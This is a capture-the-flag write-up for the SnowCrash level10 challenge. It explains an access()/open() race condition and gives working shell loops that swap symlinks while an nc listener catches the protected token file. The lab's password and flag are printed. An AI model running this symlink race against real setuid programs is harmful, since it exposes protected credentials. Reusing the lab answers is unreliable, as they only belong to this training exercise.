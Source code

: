 ### Level10

Again we have an executable and a file named token. If I run the program with or without the token I always get the same result:

`./level10 file host sends file to host if you have access to it`

To find out more I look at `level10` with `strings` and I get 2 very important pieces of information. 

First we can see that the program makes a call to `access` which makes it vulnerable as the man tells us:
```
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.   For this reason, the use of this system call should be avoided. (In the example just described, a safer alternative would be to temporarily switch the process effective user ID to the real ID and then call open(2).
```

Then I could learn that the program connects to port `6969`.

To get the flag I have to open the token through a symbolic link created with another file on my HOME. So I automate the process of creating the symbolic link and calling `./level10` with while in my shell:
```
level10@SnowCrash:~$ chmod 777 . && touch test
(while true; do ln -sf test tmp; ln -sf token tmp; done)&
level10@SnowCrash:~$ while true; do ./level10 tmp 127.0.0.1; done
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
You don't have access to tmp
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```

Then in another shell I listen on the port with the following command:

`while true; do nc -l 6969; done`

So I quickly see the contents of the token: `woupa2yuojeeaaed06riuj63c`

We just have to connect to the flag10 with this password and launch the getflag command

You get the flag!
> feulo4b72j7edeahuete3no7c
